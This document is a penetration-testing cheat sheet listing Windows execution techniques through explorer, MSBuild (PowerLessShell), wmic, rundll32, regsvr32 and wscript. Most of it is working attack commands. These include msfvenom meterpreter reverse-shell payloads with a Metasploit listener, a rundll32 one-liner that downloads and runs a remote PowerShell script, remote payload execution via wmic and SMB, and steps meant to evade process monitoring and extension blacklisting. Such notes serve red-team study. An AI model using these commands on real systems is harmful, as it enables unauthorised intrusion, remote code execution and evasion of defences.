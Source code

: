 # File Execution Methods

### Explorer

```bash
explorer.exe /root,"C:\Windows\System32\calc.exe"
explorer.exe /root,"C:\Windows\Temp\Shell.exe"
```

### PowerLessShell

PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the `PowerShell` process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

**GitHub:** [https://github.com/Mr-Un1k0d3r/PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell)

After cloning the repository, generate a `msfvenom` payload as per the syntax shown below.

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=<IP> LPORT=445 -f psh-reflection > shell.ps1
```

Set a `Metasploit` listener

```
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost <IP>;set lport 445;exploit"
```

From the PowerLessShell repository build the project file.

```bash
python2 PowerLessShell.py -type powershell -source ~/opt/shell.ps1  -output ~/opt/shell.csproj
```

![](<../../.gitbook/assets/image (516).png>)

After building completes, transfer the `.csproj` file to the target system. Then use the command below to execute. (Framework versions will vary).

```
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\windows\temp\shell.csproj
```

Wait a short while...

![](<../../.gitbook/assets/image (1971).png>)

Where we should land a shell.

![](<../../.gitbook/assets/image (192).png>)

Checking the running processes on the target system whilst the shell is active shows no PowerShell.exe processes' running.

![](<../../.gitbook/assets/image (54).png>)

### Wmic

```bash
# Execute binary on local system
wmic.exe process call create c\windows\temp\Shell.exe

# Execute binary on remote system
wmic.exe /node:"10.10.10.10" process call create "Shell.exe"
```

### Rundll32

```powershell
# Execute JavaScript script that runs a PowerShell script from a remote server
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://<IP>/<File.ps1>');"

# Execute a JavaScript script that runs calc.exe.
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

# Execute a DLL on a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.
rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
```

### Regsvr32

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=445 -f dll -a x86 > Shell.dll 
```

Upload to target system and execute.

```
regsvr32.exe c:\windows\temp\shell.dll
```

### WScript

Wscript can be used to run vbs file's which can be executed within text files to bypass file extension blacklisting.

```
c:\Windows\System32>wscript /e:VBScript c:\Users\moe\Desktop\shell.txt
```

### Shortcuts

\<WIP>
